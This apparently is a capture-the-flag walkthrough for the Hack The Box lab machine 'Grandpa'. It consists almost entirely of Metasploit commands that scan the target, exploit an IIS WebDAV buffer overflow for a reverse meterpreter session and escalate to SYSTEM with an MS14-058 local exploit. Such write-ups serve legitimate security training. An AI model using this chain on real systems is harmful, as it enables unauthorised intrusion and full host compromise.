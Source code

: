 ```yaml
---
cover: ../../.gitbook/assets/Grandpa.png
coverY: 255.85066666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Grandpa

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a grandpa
msf6> setg rhosts 10.129.95.233
msf6> setg lhost 10.10.14.61
msf6> db_nmap -sV -sC -O 10.129.95.233
```

<figure><img src="../../.gitbook/assets/001.png" alt=""><figcaption></figcaption></figure>

```bash
msf6> search type:exploit name:iis
msf6> use exploit/windows/iis/iis_webdav_scstoragepathfromurl
msf6> run

meterpreter> sysinfo  # throw error
# CTRL+Z

msf6> use multi/recon/local_exploit_suggester
msf6> set session 1
msf6> run
```

<figure><img src="../../.gitbook/assets/002.png" alt=""><figcaption></figcaption></figure>

```bash
msf6> use exploit/windows/local/ms14_058_track_popup_menu
msf6> set session 1
msf6> set lport 4445
msf6> run

meterpreter> getuid  # NT AUTHORITY\SYSTEM
```
